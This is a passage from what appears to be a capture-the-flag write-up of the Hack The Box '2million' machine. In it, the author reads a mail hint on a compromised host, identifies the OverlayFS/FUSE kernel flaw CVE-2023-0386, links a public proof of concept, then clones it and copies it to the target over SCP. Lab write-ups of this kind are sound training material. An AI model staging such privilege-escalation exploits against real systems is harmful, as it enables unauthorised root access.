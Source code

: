 the next step automatically in my head would be to check the mail or for any notes and hints and then the SQL database if nothing interesting is in mail

```
www-data@2million:~/html$ cd /var/mail
cd /var/mail
ls
www-data@2million:/var/mail$ ls
admin
cat admin
www-data@2million:/var/mail$ cat admin
From: ch4p <ch4p@2million.htb>
To: admin <admin@2million.htb>
Cc: g0blin <g0blin@2million.htb>
Subject: Urgent: Patch System OS
Date: Tue, 1 June 2023 10:45:22 -0700
Message-ID: <9876543210@2million.htb>
X-Mailer: ThunderMail Pro 5.2

Hey admin,

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

HTB Godfather

```


alright very naice so we know that we need to do some privesc, In all honesty its my fav part. So we know that we have a CVE we need to look for OverlayFS FUSE CVE and I found these goldmines

https://securityonline.info/poc-exploit-released-for-linux-kernel-privilege-escalation-cve-2023-0386-bug/

https://github.com/xkaneiki/CVE-2023-0386/tree/main


![19 CVE](https://github.com/0xHillside/Writeups/assets/109657189/b5e1f3ad-cfaa-407c-8955-cf96bd56e3fb)



alright so I saw the GitHub script and I downloaded it and now time to exploit it transport it and move it :)), The easiest method with a box this low level for me would be to clone the repo, zip it and transport it through SCP considering the fact that we have the credentials for admin it should not be a problem

```
kali@kali ~> git clone https://github.com/xkaneiki/CVE-2023-0386
Cloning into 'CVE-2023-0386'...
remote: Enumerating objects: 24, done.
remote: Counting objects: 100% (24/24), done.
remote: Compressing objects: 100% (15/15), done.
remote: Total 24 (delta 7), reused 21 (delta 5), pack-reused 0
Receiving objects: 100% (24/24), 426.11 KiB | 1.40 MiB/s, done.

kali@kali ~> zip -r cve.zip CVE-2023-0386

kali@kali ~> scp cve.zip admin@2million.htb:/tmp
The authenticity of host '2million.htb (10.10.11.221)' can't be established.
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '2million.htb' (ED25519) to the list of known hosts.
admin@2million.htb's password: 
cve.zip                                                                            100%  459KB 877.9KB/s   00:00    
```